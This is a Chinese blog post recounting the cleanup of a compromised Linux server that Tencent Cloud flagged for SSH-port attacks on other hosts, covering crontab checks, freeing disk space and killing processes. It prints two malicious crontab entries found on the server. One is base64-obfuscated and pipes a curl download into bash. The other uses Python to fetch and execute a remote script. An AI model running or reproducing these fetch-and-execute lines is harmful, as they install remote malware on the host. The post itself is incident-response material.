 ```yaml
---
title: Linux 22端口对外攻击解决
date: 2023-06-25 09:22:36
permalink:  /linux/2304
sidebar: true
article: false #  是否未非文章页，非文章不显示 面包屑和作者、时间，不显示最近更新栏，不会参与到最近更新文章的数据计算中
comment: false #  评论区
editLink: false
---
```


近日同事的服务器遭受到攻击，怀疑是由于上网环境不安全，服务器链接信息被劫持，植入病毒造成服务器告警，告警信息如下：
::: danger
您的账号（账号ID: 100016685465，昵称：new）下的设备（IP：121.5.146.143），存在对其他服务器端口（TCP：22）的攻击行为，请您做好安全自查整改，并在24小时内停止上述行为。如逾期未处理，我们核实后将按相关法律法规和腾讯云服务协议要求对您停止服务。
:::
从告警信息可以看出是我们的服务器对外发起了攻击，后来对外访问得22端口被禁用，缓解了这个问题，但是没有从根本解决，接下来记录一下如何解决问题。首先你看到得自己的服务器状况一定是这样的

![](/assets/img/linux/2305/img.png)

面对进程占用我们可以 kill 掉，但还是会被重新启动，所以这种情况先检查是否有定时任务
```
# 显示 crontab 任务。 
crontab -l 
# 如果有非法定时任务删除他 
crontab -r 任务
```

但是我查看后同事的服务没有任何定时文件在执行，那我们需要查看 /etc/crontab 是否有非法定时任务
```
* * * * * root echo Y3VybCAtZnNTTCBodHRwOi8vMTQwLjk5LjMyLjQ4L2IyZjYyOC9jcm9uYi5zaAo=|base64 -d|bash|bash
* * * * * root python -c "import urllib2; print urllib2.urlopen('http://b.\\c\\l\\u-e\\.e\\u/t.sh').read()" >.1;chmod +x .1;./.1                                                                                                                                       
```
以上内容可以看到有两个定时任务一直再跑，其中一个一直在下载文件并且执行，此时我们干掉这两个任务，我在注掉这两个任务提示我

::: warning
/etc/crontab" E514: write error (file system full?) 系统文件已满
:::

此时需要删除一些文件释放空间以对以上内容进行保存
```
# 查看哪个文件占用较大可以删掉
du -sh 文件
```
以上完成后，重新启动定时任务
```
systemctl restart crond.service
```
找到进程所在文件，删除文件，停止进程
```
ps -ef | grep 18732
```
以上操作下来如果还有问题，那么可能需要排查所运行的服务是否有异常，比如docker是否有重复容器被启动等